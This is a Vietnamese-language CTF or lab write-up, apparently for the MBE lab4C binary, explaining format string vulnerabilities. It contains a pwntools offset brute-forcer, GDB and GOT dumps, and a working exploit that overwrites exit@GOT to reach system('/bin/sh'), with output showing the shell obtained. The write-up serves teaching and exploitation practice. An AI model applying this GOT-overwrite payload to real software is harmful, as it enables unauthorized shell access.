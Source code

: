 # Problem 

Bài này chúng ta sẽ gặp 1 lỗi cũng nguy hiểm không kém cạnh Buffer Overflow, đó chính là lỗi Format String.
Nói 1 chút về format string, thì nó là lỗi do người lập trình có thói quen xấu khi code, hoặc khi người lập trình sử dụng các hàm print, printf.... mà không dùng những đặc tả như: %d %s %c .... Thay vào đó, người lập trình chỉ dùng:
```sh
print(username);
```
Điều này hết sức nguy hiểm, vì lỗi này có thể leak được những dữ liệu ` nhạy cảm ` từ stack khi chương trình đang chạy.

Bài này cho chúng ta sẵn hàm system("/bin/sh") để spawn shell khi nhập đúng password của chương trình. Nhưng mình thích không cần password nhưng vẫn leo shell luôn.

# solution

Hướng khai thác bài này của mình bằng cách spawn shell nhưng không cần mật khẩu. Mình sẽ lợi dụng việc khi chương tình so sánh mật khẩu nhập vào và mật khẩu đọc lên từ file, nếu sai thì chương trình sẽ exit. Chúng ta sẽ đổi địa chỉ exit@plt+6 này thành địa chỉ của `system("/bin/sh")`

Chúng ta sẽ lấy được số n bằng chương trình nhỏ như sau:

```sh
from pwn import *

count = 100
for i in range(100):
	p = process("./lab4C")
	print (str(i) + "\n")
	buf = "%" + str(i) +  "$08x"
	p.sendline(buf)
	p.sendline("1234")
	print("\n")
	print(p.recv(1000))
```

Sau khi nhìn vào kết quả trả về:

```sh
[+] Starting local process './lab4C': pid 24324
37



[*] Process './lab4C' stopped with exit code 1 (pid 24324)
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: --[ Password: -----------------------------------------
24373325 does not have access!

```

Mình sẽ biết được n = 37 vì `0x24373325 ~ %37$`

Việc còn lại là xác định địa chỉ của System("/bin/sh") với địa chỉ got của Exit mình dùng lệnh
`disassemble main` với `got` trong **GDB**

```sh
  0x08048aeb <+702>:	mov    DWORD PTR [esp],0x8048cd4
  0x08048af2 <+709>:	call   0x80486d0 <system@plt>

--------------------------------------------------------------

pwndbg> got

GOT protection: No RELRO | GOT functions: 13
 
[0x8049ee4] printf@GLIBC_2.0 -> 0x8048666 (printf@plt+6) ◂— push   0 /* 'h' */
[0x8049ee8] strcspn@GLIBC_2.0 -> 0x8048676 (strcspn@plt+6) ◂— push   8
[0x8049eec] fgets@GLIBC_2.0 -> 0x8048686 (fgets@plt+6) ◂— push   0x10
[0x8049ef0] fclose@GLIBC_2.1 -> 0x8048696 (fclose@plt+6) ◂— push   0x18
[0x8049ef4] fwrite@GLIBC_2.0 -> 0x80486a6 (fwrite@plt+6) ◂— push   0x20 /* 'h ' */
[0x8049ef8] fread@GLIBC_2.0 -> 0x80486b6 (fread@plt+6) ◂— push   0x28 /* 'h(' */
[0x8049efc] puts@GLIBC_2.0 -> 0x80486c6 (puts@plt+6) ◂— push   0x30 /* 'h0' */
[0x8049f00] system@GLIBC_2.0 -> 0x80486d6 (system@plt+6) ◂— push   0x38 /* 'h8' */
[0x8049f04] __gmon_start__ -> 0x80486e6 (__gmon_start__@plt+6) ◂— push   0x40 /* 'h@' */
[0x8049f08] exit@GLIBC_2.0 -> 0x80486f6 (exit@plt+6) ◂— push   0x48 /* 'hH' */
[0x8049f0c] __libc_start_main@GLIBC_2.0 -> 0xf7df1e30 (__libc_start_main) ◂— call   0xf7f102c9
[0x8049f10] fopen@GLIBC_2.1 -> 0x8048716 (fopen@plt+6) ◂— push   0x58 /* 'hX' */
[0x8049f14] strncmp@GLIBC_2.0 -> 0x8048726 (strncmp@plt+6) ◂— push   0x60 /* 'h`' */

```

Gòi xong, mình có chương trình exploit.py thay đổi địa chỉ thay thế exit@plt+6 thành địa chỉ của system("/bin/sh") như sau:

```sh
from pwn import *

def exp_fmt():
	p = process("./lab4C")
	raw_input("DEBUG")
	exit_got = 0x8049f08

	payload1  = "aa%s" + p32(exit_got) + p32(exit_got+0x1) + p32(exit_got+0x3)
	payload1 += "%" + str(0x048aeb-0x12) + "x%38$n"
	payload1 += "%" + str(0x08048a-0x048aeb) + "x%39$n"
	
	p.sendline(payload1)
	p.sendline("1234")
	p.interactive()

exp_fmt()
```
Run chương trình lên, ăn miếng bánh uống miếng nước....
Tadaaaaa.
```sh
zir@warzone:~/ctf/TrainingPwn/MBE_release/levels/lab04$ python exploit4C.py 
[+] Starting local process './lab4C': pid 25540
DEBUGS 


                                                                                                                             804a160 does not have access!
$ id
uid=1000(zir) gid=1000(zir) groups=1000(zir),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)

```
Vậy là chúng ta spawn shell thành công mà không cần mật khẩu chương trình. Chúc các bạn một ngày tốt lành. 😎😎😎


